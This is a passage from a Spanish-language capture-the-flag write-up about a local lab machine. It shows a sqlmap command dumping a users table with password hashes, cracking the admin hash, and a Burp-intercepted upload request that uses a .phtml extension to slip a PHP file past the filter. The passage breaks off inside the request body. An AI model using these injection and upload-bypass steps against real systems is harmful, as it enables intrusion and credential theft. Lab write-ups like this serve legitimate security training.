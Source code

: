    ```bash
Database: apple_store
[2 tables]
+-----------+
| productos |
| users     |
+-----------+

sqlmap -u "http://172.17.0.2/mycart.php?search=" --batch -D apple_store -T users --dump --cookie="PHPSESSID=dic1u6ivstpgih4cos6cnv09eg"                

Database: apple_store                                                                                                                                                                    
Table: users
[5 entries]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a        | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0        | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 (test) | test     |
| 4  | a0f1490a20d0211c997b44bc357e1972deab8ae3 (s)    | x        |
| 5  | a0f1490a20d0211c997b44bc357e1972deab8ae3 (s)    | s        |
+----+-------------------------------------------------+----------+

```

Nos interesa el usuario admin, y parece que es MD5.

Usamos https://hashes.com/en/decrypt/hash 

`7f73ae7a9823a66efcddd10445804f7d124cd8b0:0844575632`

**Usuario -> admin**
**Contra -> 0844575632**


Al loggearnos, tenemos un **panel de admin** y al entrar en Configuración podemos subir archivos.
No deja subir un php, lo interceptamos con **burpsuite** y cambiamos la extensión a **phtml**:

```php
POST /adm_configuration.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------68612445532931878114124137394
Content-Length: 822
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/adm_configuration.php
Cookie: PHPSESSID=dic1u6ivstpgih4cos6cnv09eg
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------68612445532931878114124137394
Content-Disposition: form-data; name="file_upload"; filename="wp.phtml"
Content-Type: application/x-php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
```